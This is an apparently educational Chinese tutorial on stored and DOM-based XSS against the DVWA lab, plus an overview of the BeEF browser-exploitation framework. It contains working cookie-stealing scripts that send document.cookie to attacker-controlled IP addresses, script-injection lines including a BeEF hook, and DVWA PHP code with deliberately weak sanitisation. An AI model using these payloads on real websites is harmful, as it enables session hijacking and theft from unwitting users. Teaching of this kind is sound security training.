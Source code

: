 # XSS存储型

存储型XSS原理：

- 可长期存储于服务器端
- 每次攻击访问都会被执行js脚本，攻击者只需侦听指定端口

**注：** 攻击利用方法大体等于反射性XSS利用；多出现在留言板等位置；使用Burpsuite更方便

1. 观察返回结果，是否原封不动地返回输入数据？是否有其他标签

![XSS7](img/XSS/XSS7.png)

数据原封不动的返回给了客户端

注入js代码，通过留言板存储在服务器中，所以每次点击留言板链接，都会弹出XSS弹窗

```
<script>alert("XSS")</script>
```

![XSS8](img/XSS/XSS8.png)



2.测试加载攻击者控制的服务器中的js文件

```
#实验步骤：
1.启动apache2服务
2.创建a.js文件 
3.注入代码
4.侦听88端口,接受返回的数据
```

```
#a.js
var img=new Image();
img.src="http://10.252.201.241:88/cookies.php?cookie="+document.cookie
```

```
#注入代码
<script src="http://10.252.201.241/a.js"></script>
```



![XSS9](img/XSS/XSS9.png)

**DVWA存储型XSS代码审计：**

*low:*

```
 <?php
if(isset($_POST['btnSign']))
{
   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);  
   // Sanitize name input
   $name = mysql_real_escape_string($name);  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );  
}
?> 
```

*medium:*

```
 <?php

if(isset($_POST['btnSign']))
{
   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);   
   // Sanitize message input
   $message = trim(strip_tags(addslashes($message)));
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);    
   // Sanitize name input
   $name = str_replace('<script>', '', $name);
   $name = mysql_real_escape_string($name);  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );   
}
?> 
```

*high:*

```
 <?php
if(isset($_POST['btnSign']))
{
   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);  
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);   
   // Sanitize name input
   $name = stripslashes($name);
   $name = mysql_real_escape_string($name); 
   $name = htmlspecialchars($name);  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );  
}
?> 
```























# XSS DOM型

> 一套js和其他语言都可以调用的标准API，本质和反射型中利用src方法一样，只是调用的函数不一样而已

```
<script>
var img=document.createElement("img");
img.src="http://192.168.56.102:88/cookie.php?cookie="+escape(document.cookie)
</script>
```





# BeEF

> BeEF是目前欧美最流行的web框架攻击平台，可用于生成、交互payload【内含大量模块，payload】
>
> 服务器端：管理hooked客户端
>
> 客户端：运行于客户端浏览器的JavaScript脚本

**浏览器攻击面：**

应用普遍转移到B/S架构，浏览器成为统一客户端程序；大部分需要结合社会工程学方法对浏览器进行攻击；攻击浏览器用户；通过注入的JS脚本，利用浏览器攻击其他网站

**攻击手段：**

利用网站xss漏洞实现攻击；诱使客户端访问含有hooked的伪造站点；结合[中间人攻击](http://netsecurity.51cto.com/art/201303/386031.htm)注入hooked脚本

**常见用途：**

键盘记录器；网络扫描；浏览器信息收集；绑定shell；与Matesploit集成



**使用方法**

1.默认登录账号密码beff/beff

2.XSS注入`<script src="http://127.0.0.1:3000/hook.js"></script>`

![XSS10](img/XSS/XSS10.png)

![XSS11](img/XSS/XSS11.png)

3. 模块

![XSS12](img/XSS/XSS12.png)

**注：**点击对应模块即可使用，响应速度比较慢，**绿色**为适用；**橙色**也是可用，但是会被客户端使用者发现；**红色**可能不可用；**灰色**未知是否可用

- Brower   (浏览器类型，可得cookie，OS等信息)
- Exploits   (漏洞利用模块)
- Network   (可以用作僵尸机)
- Persistence   (持久型hooked，页面关闭主机未离线，仍可对hooked客户端进行操作)







